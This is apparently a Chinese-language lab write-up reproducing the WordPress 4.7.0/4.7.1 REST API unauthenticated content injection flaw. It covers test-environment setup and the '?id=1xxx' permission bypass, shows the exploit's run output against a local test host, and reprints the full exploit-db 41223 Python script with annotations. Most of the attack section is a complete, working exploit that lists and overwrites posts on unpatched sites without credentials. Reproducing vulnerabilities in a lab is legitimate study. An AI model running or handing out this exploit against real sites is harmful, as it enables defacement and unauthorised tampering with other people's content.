





#### 可能有用的链接

- [WordPress 4.7.0/4.7.1 - Unauthenticated Content Injection (Python) ---- exploit-db](https://www.exploit-db.com/exploits/41223/)
- [WordPress REST API 内容注入漏洞 ---- seebug](https://www.seebug.org/vuldb/ssvid-92637)
- [Content Injection Vulnerability in WordPress ---- sucuri](https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html)
- [WordPress 4.7.0/4.7.1 REST API 内容注入漏洞 ---- GitHub](https://github.com/Medicean/VulApps/tree/master/w/wordpress/5)

#### 漏洞说明:

- 影响版本: 4.7.0/4.7.1
- 在4.7.0版本后,REST API插件的功能被集成到WordPress中,由此也引发了一些安全性问题。
- 导致WordPress所有文章内容可以未经验证被查看，修改，删除，甚至创建新的文章

#### 复现环境

- 1、Ubuntu16.04
	- Apache2
	- wordpress
	- php7.0
	- MySQL 5.7.19
- 2、Apache2 开启rewrite

关键修改:
```bash
sudo a2enmod rewrite  开启Rewrite模块(停用模块，使用 a2dismod)

vim /etc/apache2/apache2.conf 添加:

<Directory /var/www/html/wp4_7>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
</Directory>

```

- 3、Wordpress后台设置 设置 --> 固定链接
	- 修改掉默认固定链接


- 4、此次访问 http://wp_site/wp-json/wp/v2/posts 可以看到内容

#### 漏洞复现

根据[REST API文档](http://v2.wp-api.org/)修改文章内容的数据包构造如下:



不带任何验证信息会提示不允许编辑文章

构造可利用的数据包:
当url为/wp-json/wp/v2/posts/1?id=1xxx时，可以看到，已经成功跳过验证看到文章内容了。



#### 漏洞利用

使用exploitdb给的python脚本:
```bash
E:\python-hhf\exploit_db
λ python "wp4_7_ content_injection.py" http://192.168.48.145:85
* Discovering API Endpoint
* API lives at: http://192.168.48.145:85/wp-json/
* Getting available posts
 - Post ID: 1, Title: Hello world!, Url: http://192.168.48.145:85/archives/1

E:\python-hhf\exploit_db
λ python "wp4_7_ content_injection.py" http://192.168.48.145:85 1 1.txt
* Discovering API Endpoint
* API lives at: http://192.168.48.145:85/wp-json/
* Updating post 1
* Post updated. Check it out at http://192.168.48.145:85/archives/1
* Update complete!
```





#### [Exploit ---- exploit-db-41223](https://www.exploit-db.com/exploits/41223/):  分析

```python
# -*- coding:utf-8 -*-

# 2017 - @leonjza
#
# Wordpress 4.7.0/4.7.1 Unauthenticated Content Injection PoC
# Full bug description: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html

# Usage example:
#
# List available posts:
#
# $ python inject.py http://localhost:8070/
# * Discovering API Endpoint
# * API lives at: http://localhost:8070/wp-json/
# * Getting available posts
#  - Post ID: 1, Title: test, Url: http://localhost:8070/archives/1
#
# Update post with content from a file:
#
# $ cat content
# foo
#
# $ python inject.py http://localhost:8070/ 1 content
# * Discovering API Endpoint
# * API lives at: http://localhost:8070/wp-json/
# * Updating post 1
# * Post updated. Check it out at http://localhost:8070/archives/1
# * Update complete!

import json
import urllib2
from lxml import etree
import sys
reload(sys)
sys.setdefaultencoding('utf-8')   #智障的python2中文编码


def get_api_url(wordpress_url):  #获取 wordpress api url
    response = urllib2.urlopen(wordpress_url)

    data = etree.HTML(response.read())
    u = data.xpath('//link[@rel="https://api.w.org/"]/@href')[0]

    # check if we have permalinks
    if 'rest_route' in u:
        print(' ! Warning, looks like permalinks are not enabled. This might not work!')

    return u


def get_posts(api_base):   # 从api中获取 wordpress 文章id 以及标题
    respone = urllib2.urlopen(api_base + 'wp/v2/posts')
    posts = json.loads(respone.read())

    for post in posts:
        # post['title']['rendered'] = post["title"]['rendered'].decode('utf-8').encode('utf-8')
        print(' - Post ID: {0}, Title: {1}, Url: {2}'
              .format(post['id'], post['title']['rendered'], post['link']))


def update_post(api_base, post_id, post_content):   # 使用api更新wordpress文章内容
    # more than just the content field can be updated. see the api docs here:
    # https://developer.wordpress.org/rest-api/reference/posts/#update-a-post
    data = json.dumps({
        'content': post_content
    })  # 需要 post 出去的数据

    url = api_base + 'wp/v2/posts/{post_id}/?id={post_id}abc'.format(post_id=post_id)
    req = urllib2.Request(url, data, {'Content-Type': 'application/json'})
    response = urllib2.urlopen(req).read()

    print('* Post updated. Check it out at {0}'.format(json.loads(response)['link']))


def print_usage():  # 打印使用方法
    print('Usage: {0} <url> (optional: <post_id> <file with post_content>)'.format(__file__))


if __name__ == '__main__':

    # ensure we have at least a url
    if len(sys.argv) < 2:
        print_usage()
        sys.exit(1)

    # if we have a post id, we need content too
    if 2 < len(sys.argv) < 4:
        print('Please provide a file with post content with a post id')
        print_usage()
        sys.exit(1)

    print('* Discovering API Endpoint')
    api_url = get_api_url(sys.argv[1])
    print('* API lives at: {0}'.format(api_url))

    # if we only have a url, show the posts we have have
    if len(sys.argv) < 3:
        print('* Getting available posts')
        get_posts(api_url)

        sys.exit(0)

    # if we get here, we have what we need to update a post!
    print('* Updating post {0}'.format(sys.argv[2]))
    with open(sys.argv[3], 'r') as content:
        new_content = content.readlines()

    update_post(api_url, sys.argv[2], ''.join(new_content))

    print('* Update complete!')
```